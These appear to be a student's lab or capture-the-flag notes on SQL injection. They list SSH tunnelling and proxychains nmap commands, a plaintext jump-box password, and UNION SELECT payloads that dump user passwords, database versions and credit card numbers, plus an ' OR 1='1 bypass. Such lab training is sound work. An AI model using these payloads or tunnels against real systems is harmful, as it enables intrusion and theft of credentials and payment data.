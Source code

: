 # JB Password:
```
v0cEcUbwIzY878p
```
# MS setup: 
```
ssh -MS /tmp/jump student@10.50.37.98	     

ssh -S /tmp/jump jump -O forward -D 9050

ssh -MS /tmp/web student@10.50.37.98

ssh -S /tmp/web web -O forward -L127.0.0.1:2224:10.100.28.40:4444

ssh -S /tmp/jump jump -O cancel -D9050

ssh -S /tmp/web web -O forward -D9050

proxychains nmap -Pn -n -T5 10.100.28.55

proxychains nmap --script http-enum 10.100.28.55
```

-----------------------------------------------------------------------

    Golden Rule:
    ```
    127.0.0.1:1111/cases/productsCategory.php?category=13 UNION SELECT table_schema,table_name,column_name from information_schema.columns
    ```
    ### step 4:  Craft more tailored queries
    q3 * Provide the password for users with administrator access to the DNLA database. To answer input the flag.
    ```
    127.0.0.1:1111/cases/productsCategory.php?category=13 UNION SELECT username,password,permission from sqlinjection.members
    ```
    q4 * Utilizing the Search page on DNLA, identify the vulnerability to find the flag. To answer input only the characters inside the flag.
    ```
    ' OR 1='1
    ```
    q5 * Identify the version of the database that DNLA is utilizing.To answer input the full version.
    ```
    http://127.0.0.1:1111/cases/productsCategory.php?category=1 UNION SELECT table_schema,@@version,column_name from information_schema.columns
    ```


## q6 * Utilizing the input field on DNLA budget page, find the flag associated with credit cards. To answer the question enter only the characters inside the flag.
```

127.0.0.1:1111/cases/productsCategory.php?category=13 UNION SELECT username,password,permission from sqlinjection.members

'UNION SELECT id,creditcard_number,order from sqlinjection.payments' query

```


## q7 * Find the flag associated with id 1337.
```

```
## q8 * Using the /cases/register.php page on DNLA create a user with admin permissions, ensuring the firstname is set to Hacker. Once created log in to get the flag.
(meh !! I ain't pressed)
